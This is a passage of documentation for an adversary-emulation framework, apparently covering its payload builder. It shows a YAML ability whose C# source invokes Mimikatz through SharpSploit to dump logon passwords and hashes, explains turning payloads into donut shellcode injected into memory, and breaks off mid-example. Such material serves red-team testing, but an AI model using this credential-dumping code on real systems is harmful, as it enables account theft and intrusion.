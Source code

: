 ```yaml
        build_target: CredDump.exe
        language: csharp
        code: |
          using System;
          using System.IO;
          using SharpSploit;

          namespace CredDump
          {
              class Program
              {
                  static void Main(string[] args)
                  {
                      SharpSploit.Credentials.Mimikatz mimi = new SharpSploit.Credentials.Mimikatz();
                      string logonPasswords = SharpSploit.Credentials.Mimikatz.LogonPasswords();
                      Console.WriteLine(logonPasswords);
                  }
              }
          }
        parsers:
          plugins.stockpile.app.parsers.katz:
            - source: domain.user.name
              edge: has_password
              target: domain.user.password
            - source: domain.user.name
              edge: has_hash
              target: domain.user.ntlm
            - source: domain.user.name
              edge: has_hash
              target: domain.user.sha1
  payloads:
    - SharpSploit.dll
```

#### Donut

The `donut` gocat extension is required to execute donut shellcode.

The `donut_amd` executor combined with a `build_target` value ending with `.donut`, can be used to generate shellcode using [donut](https://github.com/TheWover/donut). Payloads will first be dynamically-compiled into .NET executables using Builder, then converted to donut shellcode by a Stockpile payload handler. The `.donut` file will be written to disk and injected into memory by the sandcat agent.

The `command` field can, optionally, be used to supply command line arguments to the payload. In order for the sandcat agent to properly execute the payload, the `command` field must either begin with the `.donut` file name, or not exist.

The following example shows donut functionality using the optional `command` field to pass arguments:

```yaml
---

- id: 7edeece0-9a0e-4fdc-a93d-86fe2ff8ad55
  name: Test Donut with Arguments
  description: Hello Name Donut
  tactic: execution
  technique:
    attack_id: T1059
    name: Command-Line Interface
  platforms:
    windows:
      donut_amd64:
```